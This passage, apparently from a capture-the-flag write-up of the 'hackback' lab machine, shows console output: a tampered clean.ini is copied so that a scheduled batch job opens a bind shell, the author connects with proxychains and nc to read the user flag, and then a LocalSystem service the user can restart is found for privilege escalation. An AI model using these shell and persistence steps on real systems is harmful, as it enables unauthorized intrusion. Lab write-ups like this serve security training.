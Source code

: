 ```
C:\util\scripts>copy c:\programdata\clean.ini clean.ini
copy c:\programdata\clean.ini clean.ini
Overwrite clean.ini? (Yes/No/All): yes
yes
        1 file(s) copied.
```

After a while the batch file is executed (probably some scheduler job set up) and I can connect to the bind shell:

```
# proxychains nc -nv 127.0.0.1 4441
ProxyChains-3.1 (http://proxychains.sf.net)
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 127.0.0.1:4441.
Microsoft Windows [Version 10.0.17763.292]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
hackback\hacker

C:\Windows\system32>cd \users\hacker\desktop
cd \users\hacker\desktop

C:\Users\hacker\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 00A3-6B07

 Directory of C:\Users\hacker\Desktop

02/09/2019  03:34 PM    <DIR>          .
02/09/2019  03:34 PM    <DIR>          ..
02/09/2019  03:34 PM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  92,183,654,400 bytes free

C:\Users\hacker\Desktop>type user.txt
type user.txt
92244...
```

### Privesc

There's a suspicious service that user `hacker` can stop & start:

```
C:\Windows\system32>sc query userlogger

SERVICE_NAME: userlogger 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0


HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\userlogger
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    c:\windows\system32\UserLogger.exe
    ObjectName    REG_SZ    LocalSystem
```